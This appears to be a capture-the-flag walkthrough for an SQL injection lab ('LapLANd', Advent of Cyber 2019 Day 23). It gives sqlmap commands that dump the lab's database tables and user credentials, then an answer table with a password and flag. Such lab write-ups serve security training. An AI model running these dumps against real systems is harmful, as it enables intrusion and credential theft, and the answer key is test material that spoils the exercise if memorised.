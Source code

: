 # Advent of Cyber 01 - 2019
# Day 23
# LapLANd (SQL Injection)


> Machine IP : `10.10.40.83`

> Intercept the login page and save the request as `login.txt`
> sqlmap command 
```
sqlmap -r login.txt --dbs --dump 
```
> to view the tables in database 
```
sqlmap -r login --dump -D social --tables 
```
> to view content of users table 
```
sqlmap -r login --dump -D social -T users

```
> to see the collumn values :
```
sqlmap -r login --dump -D social -T users -C id,username,email,password
```

| Que$t1on$ | An$wer$ |
|-----------|---------|
| Which field is SQL injectible? Use the input name used in the HTML code. | log_email |
| What is Santa Claus' email address? | bigman@shefesh.com |
| What is Santa Claus' plaintext password ? | saltnpepper |
| Santa has a secret! Which station is he meeting Mrs. Mistletoe in? | waterloo |
| Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/ | THM{SHELLS_IN_MY_EGGNOG} |
